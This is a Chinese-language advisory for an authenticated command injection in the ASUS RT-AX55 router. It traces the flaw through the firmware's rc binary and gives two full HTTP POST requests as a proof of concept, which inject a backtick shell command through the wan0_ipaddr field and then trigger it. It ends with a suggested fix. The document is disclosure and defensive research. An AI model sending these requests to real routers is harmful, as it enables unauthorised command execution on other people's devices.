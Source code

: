 # 0x01  漏洞描述 #

asus `RT-AX55` 路由器存在身份验证后的命令注入漏洞。

# 0x02  固件分析 #

固件下载：https://dlcdnets.asus.com/pub/ASUS/wireless/RT-AX55/FW_RT_AX55_300438651598.zip?model=RT-AX55
直接binwalk用-Me提取即可。

# 0x03  代码分析 #

分析`sbin/rc`二进制文件，在函数`FUN_0004d76c`中，从http请求参数`action_script`获取`ipsec_force_gen_cert`值，进而进入函数`FUN_000c937c`。

![](./img//1.png)

在函数`FUN_000c937c`中，将nvram中的`wan0_ipaddr`值赋给`local_220`，再将其写入`/jffs/ca_files/generate.sh`脚本，最后调用system函数执行`/jffs/ca_files/generate.sh`。

![](./img//2.png)

# 0x04  漏洞复现 #

设置`wan0_ipaddr`的值(wan0_ipaddr的值不能超过15个字符)。

request1:

    POST /start_apply.htm HTTP/1.1
    Host: 192.168.50.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 541
    Origin: http://192.168.50.1
    Connection: close
    Referer: http://192.168.50.1/Advanced_VPN_PPTP.asp
    Cookie: clickedItem_tab=0; asus_token=jvnu22Uwa5pxjFVrHWwM3adGIbhXoLE; clock_type=1; bw_rtab=INTERNET; ASUS_TrafficMonitor_unit=1
    Upgrade-Insecure-Requests: 1
    
    productid=RT-AX55&current_page=AiProtection_HomeProtection.asp&next_page=&modified=0&action_wait=4&action_mode=apply&action_script=restart_wrs%3Brestart_firewall%3Bemail_conf%3Bsend_confirm_mail&firmver=3.0.0.4&wrs_mals_enable=1&wrs_cc_enable=1&wrs_vp_enable=1&TM_EULA=1&PM_SMTP_SERVER=smtp.qq.com&PM_SMTP_PORT=587&PM_MY_EMAIL=177%40qq.com&PM_SMTP_AUTH_USER=177&PM_SMTP_AUTH_PASS=Qwer123400&wrs_mail_bit=7&wrs_mals_t=1685353258&wrs_vp_t=1685353258&wrs_cc_t=1685353258&wrs_protect_enable=1&fc_disable=1&wan0_ipaddr=`ls>/tmp/888`
    
![](./img//3.png)

触发命令注入。

    POST /start_apply.htm HTTP/1.1
    Host: 192.168.50.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 525
    Origin: http://192.168.50.1
    Connection: close
    Referer: http://192.168.50.1/Advanced_VPN_PPTP.asp
    Cookie: clickedItem_tab=0; asus_token=jvnu22Uwa5pxjFVrHWwM3adGIbhXoLE; clock_type=1; bw_rtab=INTERNET; ASUS_TrafficMonitor_unit=1
    Upgrade-Insecure-Requests: 1
    
    productid=RT-AX55&current_page=AiProtection_HomeProtection.asp&next_page=&modified=0&action_wait=4&action_mode=apply&action_script=restart_wrs%3Brestart_firewall%3Bemail_conf%3Bsend_confirm_mail%3Bipsec_force_gen_cert&firmver=3.0.0.4&wrs_mals_enable=1&wrs_cc_enable=1&wrs_vp_enable=1&TM_EULA=1&PM_SMTP_SERVER=smtp.qq.com&PM_SMTP_PORT=587&PM_MY_EMAIL=1977%40qq.com&PM_SMTP_AUTH_USER=197&PM_SMTP_AUTH_PASS=Qwer123400&wrs_mail_bit=7&wrs_mals_t=1685353258&wrs_vp_t=1685353258&wrs_cc_t=1685353258&wrs_protect_enable=1

![](./img//4.png)

![](./img//5.png)

# 0x05  漏洞修复 #

过滤`wan0_ipaddr`的中  `反引号 ; | & $`  换行符以及双引号字符。